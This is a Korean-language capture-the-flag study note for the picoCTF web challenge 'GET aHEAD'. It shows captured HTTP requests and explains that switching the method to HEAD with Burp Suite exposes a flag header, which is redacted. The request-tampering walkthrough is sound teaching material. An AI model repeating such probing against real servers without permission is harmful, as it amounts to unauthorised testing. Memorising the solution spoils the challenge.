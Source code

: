 ```yaml
---
layout: default
title: Week 1-1 GET aHead
parent: Wargame
grand_parent: Study
nav_order: 1
mathjax: true
mermaid: true
permalink: /docs/wargame/week1-1
---
```


# Week 1-1 GET aHEAD
{: .no_toc }

<details markdown="block">
  <summary>
	Table of contents
  </summary>
{: .fs-3 .text-delta }
- TOC
{:toc}
</details>

---

> [GET aHEAD](https://play.picoctf.org/practice/challenge/132?category=1&page=1&search=)

<center markdown="block">
![1-1](/assets/wargame/1-1.png)
</center>

## GET aHEAD

- Tags: Category: Web Exploitation

### Description

- Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:34561/

### Hint

1. Maybe you have more than 2 choices

2. Check out tools like Burpsuite to modify your requests and look at the responses

## Solving

### 관찰

<center markdown="block">
![main-page](/assets/wargame/main-page.png)

http://mercury.picoctf.net:34561/
</center>

##### 사이트 접속, Choose Red 클릭

- Reponse page

	<center markdown="block">
	![choose-red-response-page](/assets/wargame/main-page.png)

	Reponse page
	</center>

- HTTP request message

	```
	GET /index.php? HTTP/1.1
	Host: mercury.picoctf.net:34561
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: close
	Referer: http://mercury.picoctf.net:34561/
	Upgrade-Insecure-Requests: 1


	```

##### Choose Blue 클릭

- Response page

	<center markdown="block">
	![choose-blue-response-page](/assets/wargame/choose-blue-response-page.png)

	Response page
	</center>

- HTTP request message

	```
	POST /index.php HTTP/1.1
	Host: mercury.picoctf.net:34561
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 0
	Origin: http://mercury.picoctf.net:34561
	Connection: close
	Referer: http://mercury.picoctf.net:34561/index.php?
	Upgrade-Insecure-Requests: 1


	```

### 아이디어

- 표면적으로 보이는 HTTP Method는 GET과 POST 두 가지가 있다.

- 제목 GET aHEAD의 HEAD를 봤을 때 웹서버가 HTTP Method인 HEAD도 허용할 것 같다.

	- hint 1. Maybe you have more than 2 choices

- burpsuite를 이용하여 request의 HTTP method를 HEAD로 변조해서 보내고 response를 보자.

	- hint 2. Check out tools like Burpsuite to modify your requests and look at the responses

##### HTTP Method

- `GET`: 리소스 요청

- `POST`: 리소스 전송

- `HEAD`: 리소스 정보(헤더) 요청

### 실행

- HTTP request message의 HTTP method를 HEAD로 변조한다.

##### link 접속, Choose Red 클릭

- HTTP request message 변조

	```
	HEAD /index.php? HTTP/1.1
	Host: mercury.picoctf.net:34561
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: close
	Referer: http://mercury.picoctf.net:34561/
	Upgrade-Insecure-Requests: 1


	```

- HTTP response message

	```
	HTTP/1.1 200 OK
	flag: picoCTF{...}
	Content-type: text/html; charset=UTF-8


	```

##### Choose Blue 클릭

- HTTP request message 변조

	```
	HEAD /index.php HTTP/1.1
	Host: mercury.picoctf.net:34561
	User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 0
	Origin: http://mercury.picoctf.net:34561
	Connection: close
	Referer: http://mercury.picoctf.net:34561/index.php?
	Upgrade-Insecure-Requests: 1


	```

- HTTP response message

	```
	HTTP/1.1 200 OK
	flag: picoCTF{...}
	Content-type: text/html; charset=UTF-8


	```

